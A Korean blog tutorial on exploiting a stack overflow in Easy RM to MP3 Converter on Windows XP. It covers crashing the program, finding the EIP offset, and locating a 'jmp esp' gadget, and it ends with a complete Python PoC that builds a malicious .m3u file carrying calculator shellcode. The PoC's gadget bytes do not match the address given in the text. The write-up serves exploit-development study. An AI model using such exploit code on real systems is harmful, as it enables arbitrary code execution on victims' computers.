 ```yaml
---
layout: post
title: [windows exploit tutorial] stack based overflow - Easy RM to MP3
---
```


윈도우 폰

0. Info
----------
corelen 팀의 windows exploit tutorial 문서 part 1 인 Easy RM to MP3프로그램의 stack based overflow 취약점을 이용해 exploit을 해보겠다. os 환경은 window xp sp3 en 에서 진행 하였다. debugger는 windbg를 이용하였다.

![](https://lh4.googleusercontent.com/ZIcdxR1-jprVAu9b47F5fQqiW26GXSSQZLlqFlK0pxXVM_u7v2c9nLy3vKhaixVYB7L2aJncbuzAVCruYf2fh8bIirmCMQtissCqZEqfAnCWLSNsK01wvP30v8bPZ-txkncxH3I2)

  

exploit db에 검색하면 해당 취약점에 대한 정보와 당시 프로그램을 구할 수 있다. 내가 공부한 내용은 2009-07-16 Crazy_Hacker가 발견한 버그이다.

  

1. Vulnerability

----------

.m3u 포멧의 파일을 열 때 stack based overflow 취약점이 발생한다.

  

![](https://lh3.googleusercontent.com/cdQ3kcN9Jl-xJzLhVlyrhP3TcjbHh1ulzxnkeb-MwzUBkEJm5iyXcniDZIDNPZy2ZGi94ZBi8vR0noamKSlqwozzskZPybn-C310bTc295iiqjWiuzMBgResxCjJ4tTp2k6Ogrmr)

  

파이썬을 이용해 “A”를 30000개를 적어준다.

  

이를 Easy RM to MP3로 열게 되면

  

![](https://lh4.googleusercontent.com/nqYshKyZjKSXE3-97ciq9x7YerEG0wVglCVvkhx5v6Ml06MGY9ajkHTiozJUqybWKIU0hMHyrzwKxXooDiHlgKzasWZWfCxrUzmT4_gLUuXIa7Phu3pmBU_HI2vlnjel2AP4Rd2i)

  

크래시가 발생되고 비정상적으로 프로그램이 종료된다.

  

2. exploit

----------

이제 좀 더 정확한 정보를 얻기 위해서 windbg를 이용해서 eip가 덮혔는지 확인 해보겠다. eip가 덮히면 해커의 시나리오 대로 프로그램을 조작할 수 있기 때문에 exploit 가능성이 높아진다.

  

일단 windbg를 post-mortem 으로 등록해야 한다. 이 기능은 자동적으로 프로그램이 crash가 발생하여 비정상적으로 종료가 되면 windbg를 실행시켜 그 정보를 바로 확인 할 수 있게 해준다.

  

windbg가 설치 되어 있는 폴더 에 들어가서 windbg.exe -I 로 설정할 수 있다.

![](https://lh3.googleusercontent.com/g41REbmXii4w88afMS04xZ12VCdaX7d_-g9VAIOGRzUtdWQzqGPuYD4Pyc1W9RYbaDVhxnq5Ewlax2j7Xc0gCM4MuZXZSo1km32fqz124VRioXRcCMsHl2_HEw02OGVGSwJpIeba)

![](https://lh4.googleusercontent.com/dXVssplaFXF1iL07tlUmr4MXaLZEUUfIXWdlU1HMUmfglyzRelWqpS19ode9gwlwSuZT1kPc6DOTanqXZRhG_HXUpBCNQnQT6KCWWeNZYqIDFRdZ_9W6ULLCI3HDqZAqAQDDZbgN)

  

성공적으로 postmortem 으로 등록 되었다.

  
  

다시 한번 carsh.m3u 파일을 실행해보겠다.

  

![](https://lh3.googleusercontent.com/AY9E4YGM-Qs8WyJxUqT_HsYdevolpdenQo_y6qT2sh16bHHHo6UDo1D5Dpd_2pHHa-VqWEAVaFO_4ZB_YOyknWgfzs0tsV8F4CfNVo4n6OPQUZ0kb-4euZkXqWG8Aal_94J2OQK7)

  

crash가 나면서 자동적으로 windbg가 실행되고 레지스터 사이를 보니 eip가 AAAA 41414141로 바뀌어 있다. 즉, stack based overflow를 이용해서 ret을 조작해 eip를 조작할 수 있고, 해커의 시나리오 대로 프로그램을 조작할 수 있게 된다.

  

aslr이 적용 되어 있지 않기 때문에 쉘코드를 스택에 넣고 뛰면 되겠지만 주소에 \x00 바이트를 포함 하고 있어 exploit 할 수 없다.

  

다른 방법을 모색해야 하는데, 바로 jmp esp 가젯을 이용하는 것 이다.

  

(pwnable.kr echo1문제도 jmp esp 가젯을 이용했던 것 같다. 관련 풀이를 보면 왜 이 가젯을 이용하는지 알게 될 거다.)

  

간단하게 설명하자면, 함수 에필로그 leave ; ret ; 에서 ret이 실행 되기 전에 mov esp, ebp 구문이 있다.

  

esp를 ebp로 데려오는데, 그러면 esp는 ret뒤를 가리키게 된다. eip를 jmp esp 가젯을 실행 하면, ret뒤로 뛰게 되는 거다.

  

그러면 payload에서 ret뒤에 shellcode를 위치시키면 shellcode를 실행 할 수 있게 될 것 이다.

  

“jmp esp” 가젯은 .dll 파일에서 찾을 수 있다. .dll파일은 windbg가 로드 될 때 상단에 정보가 보인다.

  

![](https://lh5.googleusercontent.com/tEaaI_QEZnPHHRq8YbPIAc5inj3JjG418e4L8B0iRqsryTLpmKUP0HjsHSJCj1FXxH72H3fGe5ncS-MOfbr384nHOgkHhA05R2ZtBCqtV2RxKBGt_kLTQHNi_Qla_56KPTvqLm0A)

  

system32 에 있는 .dll에서 가젯을 구하면 해당 pc에선 poc가 작동하겠지만 다른 곳에선 poc가 작동 안 할 수 있다. 따라서 프로그램이 자체적으로 가지고 있는 .dll에서 가젯을 구하도록 하겠다.

  

다시 windbg를 실행하고 멀쩡한 easy rm to mp3를 attach 한다. 사용할 .dll은

  

01c80000 0214d000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll

  

를 사용 할 것이다.

  

![](https://lh5.googleusercontent.com/gChFTiFAoT820hGeoBEtQkVao23IOdbnmNpIgxKkMUJ098UmU36AloD27GqOdCx04PqzsZFMlz0NAGSMA8_LgjOIcnxIVyWvZlA74mAfkuR1GsAMmQJ_Xw0BZ9cg6ojZkBYSHxV7)

  

일단 “jmp esp” 의 opcode를 찾아야 한다.

  

![](https://lh4.googleusercontent.com/dlVn30KEQVtJ7BsTCUJAV8_sXM22b5b-Y6hKthMcGiJKY_-4uvhe6HXMjKcOLkFgY_G1hawGgjiQXXyfBjB96TlmzXCZKONIuaIagSC-WreA8lS8fkoS6aa-qOu59I-NfC7QiBU6)

a(assemble) 를 적고

  

jmp esp를 적는다.

  

그럼 7c901210에 jmp esp가 있는거다.

  

![](https://lh5.googleusercontent.com/yI1mZLaDrLHDIiK3KrQ9naY0rlwqND_P8drLnBEtBMvjXg-lutFezpSUqj1kaQ7artp66IDqcc71GIxGkIvAI0YZzJAFVF7M9j772dcENHHmUrYkS6mim5DTk6sejuHRUO-3CxXJ)

  

ff e4가 jmp esp의 opcode인 것을 확인 할 수 있다.( 사실 pwntool로 구하는 걸 블로그에 올렸었던 것 같지만.. 이 문서에서는 이렇게 소개한다.)

  

이제 dll에서 ff e4를 찾으면 된다.

  

01c80000 0214d000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll

  

이 dll에서 01c80000 0214d000이게 그 영역인데,

  

![](https://lh3.googleusercontent.com/PZFXbEHTMbc8J_OKgS2oyJFDdzgHvwok_Z7hwbgsfvjKIvTYGkmCau6jSZ7MJfdRRM-GALuJbcjVkzEwgCdV8tJhZ-1VkrwIkXt1sGJd2qTy7GcKuhNv1QNurZdBZSoa5pYCEkRy)

  

이렇게 search 할 수 있다. ff e4의 위치는 0x1e3f23a 이다.

  

생각해보니 ret의 위치를 안 찾았다.

  

메타스플로잇의 tool인 pattern_create.rb, pattern_offset을 이용해서 ret의 위치, offset을 쉽게 구할 수 있다.

  

![](https://lh4.googleusercontent.com/OafX36Bi6K5E7ldKH8Ix0dEznhmcdA7VvLABLIo6YZCmOcrn6wUIXfbqbg4kAZOmrM0KVhK0ciIAap-3XFzivH9LAfr_BUfY7ch2-cXKh_zaslPGK5BVj37fDyLbkWDLzqi4nbx_)

  

이렇게 30000개의 패턴을 뽑은 뒤,

  

.m3u파일에 넣는다.

  

![](https://lh4.googleusercontent.com/OeXyCSv6MlFMnB_9PzBCqegdEiG2MTyLlJsioLYB_PLkFury0BND38dsu4vY6nge0ZlnNAdRJQl1QoxrhL9nhKF3gAgvGLRmJwRFwhkn1cl5nzC2iH8Jyb18gmLdKUA62lnxLqZa)

  

생성 된 파일을 실행시켜 crash를 낸다.

  

windbg가 실행되면서 eip가 조작 되었을거다.

  

![](https://lh5.googleusercontent.com/O7teTfnP8HUoUCabBvasigwyTNKOAogTVz1L5OsD8293BvNn0MPXDv2GuMFxqrLcM5SJzcL8bhglGoY8LeCkswcORL4_uXxPnBFiMsVi397YR0-pA_rYKuFA3aeEwbWF6W21c-BO)

  

eip 0x48386b48이 적혀있다.

  

![](https://lh3.googleusercontent.com/CmM-1elm22MagOn0KsqFpBh358L8_-J-PS8UVL8AihtgdS-CmIF0kaUvn9qFPbpSJS-8Eiiv1S8rm3VO_etPMifNnjTTpnSxQOuxjER7oG-m_HMlGgi7QTDjF7s4Fz_QcERf4wUf)

  

이렇게 ./pattern_offset.rb [eip] [create 한 byte길이] 를 실행하면

  

![](https://lh4.googleusercontent.com/StDB55DtoRqr1RiD9vsPTz1nDWIykXaiWuU_u9J7WceRNMPuQc4evtnHmik9Hm7ifQKhlYD_395AifbZBaJNGfvsoJ6egaRwsz_RhB7GPR7JFMJvR_z5jVWzEeQeC3lGdaaeiOc9)

5784 부분과 26064부분이라고 나오는데 우리는 20000이상이니깐 26064부터 4바이트가 ret위치라는 것을 알 수 있다.

  

이제 바로 poc를 작성 해보겠다.

  

3. poc

----------

  ```python
  f =  open("C:\\Documents and Settings\\Administrator\\Desktop\\crash.m3u", "w")

gadget =  "\x3a\xf2\xd2\x01"

shellcode =  "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"  +"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"  +"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"  +"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"  +"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"  +"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"  +"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"  +"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"  +"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"  +"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"  +"\x7f\xe8\x7b\xca"

payload =  "A"*26064

payload += gadget

payload +=  "\x90"*50

payload += shellcode

payload +=  "\x90"*50

f.write(payload)

f.close()
```


  

사용한 쉘코드는 계산기를 띄우는 쉘코드이다.

  

생성된 crash.m3u를 실행 하게 되면

![](https://lh6.googleusercontent.com/SDdZuu6i1m-iaNLPukrxwUpBIiLEWNNDuB2s_40dNdH7yQOhRVuk7m_-x5a1xjC5EoBaV_1X80fS_YhFBrlGTYorv2egOzZAvJIkktoZcT0063TigeOGqMzPZUSj9EXBue38m7AJ)

  

성공적으로 계산기가 실행되었다.
